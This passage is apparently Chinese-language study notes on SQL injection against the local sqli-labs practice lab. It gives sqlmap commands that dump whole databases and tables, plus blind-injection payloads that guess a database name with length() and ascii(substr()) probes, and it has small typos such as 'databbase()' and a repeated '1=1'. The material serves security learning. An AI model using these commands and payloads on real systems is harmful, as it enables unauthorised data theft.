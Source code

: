 1、输出该数据库的所有信息

```
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --dump-all
```

2、输出指定数据库的全部信息

```
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security --dump-all
```

3、输出指定数据库指定表中的全部信息

```
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T user --dump-all
```

### Sql盲注

#### 1、判断是字符型还是数字型注入

输入`1 and 1=1`和`1 and 1=2`进行判断

在某些不知道`1‘ `即id的情况下要使用or语句

字符型后台查询：

```mysql
select * from users where id='1 and 1=1'
select * from users where id='1 and 1=2'
```

数字型后台查询：

```mysql
select * from users where id=1 and 1=1
select * from users where id=1 and 1=1
```

字符型查询第二条语句不会报错而数字型会报错，所以经判断是字符型

#### 2、猜解当前数据库名：猜数据库的长度–>猜数据库的名称

```mysql
1' and length(databbase())=1#
```

通过修改后面数字判断数据库名字长度

#### 3、猜数据库名字

通过`ascii()`函数猜解数据库名字

```mysql
1' and ascii(substr(database(),1,1))>97#     
```

该语句正确，继续猜解：

```mysql
1' and ascii(substr(database(),1,1))>100#
```
